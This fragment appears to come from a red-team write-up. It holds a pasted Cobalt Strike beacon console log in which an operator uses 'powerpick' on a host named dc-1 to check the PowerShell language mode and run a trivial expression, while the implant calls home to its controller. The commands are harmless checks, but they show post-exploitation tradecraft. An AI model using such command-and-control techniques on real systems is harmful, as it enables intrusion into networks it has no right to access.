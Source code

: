 [+] host called home, sent: 26 bytes
[+] received output:
dc-1

beacon> powerpick $ExecutionContext.SessionState.LanguageMode
[*] Tasked beacon to run: $ExecutionContext.SessionState.LanguageMode (unmanaged)
[+] host called home, sent: 134767 bytes
[+] received output:
FullLanguage

beacon> powerpick [math]::Pow(2,10)
[*] Tasked beacon to run: [math]::Pow(2,10) (unmanaged)
[+] host called home, sent: 134767 bytes
[+] received output:
1024

```

1661734876722.png